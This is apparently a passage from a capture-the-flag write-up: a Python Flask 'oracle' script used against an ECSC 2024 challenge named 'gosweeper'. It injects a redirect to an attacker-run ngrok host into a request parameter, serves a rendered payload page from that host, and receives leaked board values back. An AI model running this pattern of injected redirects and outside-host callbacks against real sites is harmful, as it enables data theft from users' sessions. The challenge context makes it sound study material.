 GREEN = "\x1b[32m"
RED = "\x1b[31m"

@app.route('/pwn', methods=['GET'])
def pwn():
    # need to reload every time pwn.html
    with open("templates/pwn.html", "r") as t:
        template = t.read()

    return render_template_string(template)

@app.route('/', methods=['GET'])
def index():
    return render_template("index.html")

@app.route('/naslab', methods=['GET'])
def home():
    arguments = request.args
    is_bomb = arguments.get("is_bomb", "")

    if is_bomb == "false":
        color = GREEN
    else:
        color = RED

    guess = arguments.get("guess", "")

    print(color, f"CASELLA {guess}", "\x1b[0m")
    
    return "ok"

if __name__ == '__main__':
    userid = "c444[...]"
    cookie = "MTcxN[...]"


    while True:
        to_guess = input("Value to guess: ")
        with open('pwn.html.template', "r") as t:

            template = t.read().replace("{guess}", to_guess).replace("{userid}", userid)

        with open("templates/pwn.html", "w") as t:
            t.write(template)

        headers = {"Cookie": f"session={cookie}"}

        requests.post("https://gosweeper.challs.open.ecsc2024.it/checkboard", data={"cloneid":"&redirect=//3013-87-21-109-73.ngrok-free.app/pwn"}, headers=headers)

        try:
            print("[*] Started Oracle")
            app.run(port=5000)
        except KeyboardInterrupt:
            print("[*] Closing oracle")
{{< /code >}}
